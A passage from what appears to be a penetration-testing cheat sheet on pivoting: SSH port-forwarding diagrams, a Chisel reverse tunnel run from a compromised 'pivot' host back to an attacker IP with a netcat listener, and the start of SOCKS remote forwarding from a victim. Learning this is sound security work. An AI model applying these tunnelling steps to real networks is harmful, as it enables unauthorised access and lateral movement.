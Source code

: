 ```
│                                                                      │  │   Listens 127.0.0.1:1337                      │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 10. ssh root@127.0.0.1 -p 9003 -------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22                 │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │   ~C ssh> -L 9004:10.3.3.3:80  │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│ 11. Listens 127.0.0.1:9004                                           │  │                                               │  │                                │  │                   │
│                                                                      │  │                                               │  │                                │  │                   │
│                                                1337 over 10.1.1.1:22 │  │                           22 over 10.2.2.2:22 │  │                                │  │                   │
│ 12. curl http://127.0.0.1:9004/ ------------------------------------------► 127.0.0.1:1337 ----------------------------------► 127.0.0.1:22 ────────────────┼──┼─► 10.3.3.3:80     │
│                                                                      │  │                                               │  │                                │  │                   │
└──────────────────────────────────────────────────────────────────────┘  └───────────────────────────────────────────────┘  └────────────────────────────────┘  └───────────────────┘
```

Notes:

* `1` For SSH server to listen at `0.0.0.0` instead of `127.0.0.1`, the `GatewayPorts yes` must be set in `/etc/ssh/sshd_config`.
* `1` With SSH (or Chisel, for example) **server** running on the Attacker the same can be achieved by doing **local** port forwarding instead of **remote**.

```
snovvcrash@attacker:~$ ./chisel server -p 8000
root@pivot1:# nohup ./chisel client 10.10.13.37:8000 443:127.0.0.1:9001 &
root@pivot1:# netstat -tulpan | grep 443
tcp6       0      0 :::443                 :::*                    LISTEN      18406/./chisel
snovvcrash@attacker:~$ rlwrap nc -lvnp 9001
```



### Remote Dynamic Forwarding

* Attacker's IP: `10.10.13.37`
* Victims's IP: `10.10.13.38`

An example how to safely set remote dynamic port forwarding (SOCKS) with a builin SSH client.

Generate a dummy SSH key on Victim:

```
alice@victim:~$ ssh-keygen -f dummy_key -t ed25519 -q -N ""
```
